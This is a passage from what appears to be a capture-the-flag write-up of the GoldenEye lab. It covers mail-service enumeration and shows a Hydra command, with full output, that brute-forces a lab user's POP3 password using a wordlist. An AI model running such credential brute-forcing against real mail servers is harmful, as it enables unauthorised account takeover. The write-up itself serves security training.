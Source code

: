> GoldenEye is a Top Secret Soviet oribtal weapons project. Since you have access you definitely hold a Top Secret clearance and qualify to be a certified GoldenEye Network Operator (GNO)
>
> Please email a qualified GNO supervisor to receive the online **GoldenEye Operators Training** to become an Administrator of the GoldenEye system
>
> Remember, since **_security by obscurity_** is very effective, we have configured our pop3 service to run on a very high non-default port

Its now time to turn attention to the smtp/pop3 ports.

### Email Enumeration

Reviewing the nmap output, port 25 SMTP allows the VRFY command however not AUTH. Port 55007 POP3 does allow authentication, I tried to login using the credentials found for boris but they didnt work.

![pop3boris](/assets/images/goldeneye/pop3boris.png)

Using Hydra I was able to brute force boris's password.

> Normaly I would use rockyou.txt however after around 30 minutes I had no hits so swapped to the much smaller wordlist fasttrack and got a hit after a minute or so.

```highlight
└──╼ $hydra -l boris -P /usr/share/wordlists/fasttrack.txt -s 55007 10.10.50.94 pop3
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-27 12:00:47
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.50.94:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.50.94   login: boris   password: <<redacted>>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-27 12:03:34
```

I repeated the process for natalya.
